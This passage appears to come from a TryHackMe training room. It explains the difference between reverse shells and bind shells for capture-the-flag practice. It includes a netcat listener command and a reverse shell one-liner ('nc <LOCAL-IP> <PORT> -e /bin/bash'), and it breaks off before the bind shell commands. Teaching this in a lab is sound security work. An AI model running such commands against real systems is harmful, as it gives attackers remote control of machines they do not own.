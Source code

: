 At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.

* **Reverse shells** are when the target is forced to execute code that connects *back* to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a *listener* which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.
    
* **Bind shells** are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.
    

As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

---

*Reverse Shell example:*

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

`sudo nc -lvnp 443`

On the target:

`nc <LOCAL-IP> <PORT> -e /bin/bash`

![](https://i.imgur.com/rN7YkJJ.png align="left")

Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are *listening* on our own attacking machine, and sending a connection *from* the target.

*Bind Shell example:*

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute `cmd.exe`. Then, with the listener up and running, we connect from our own machine to the newly opened port.
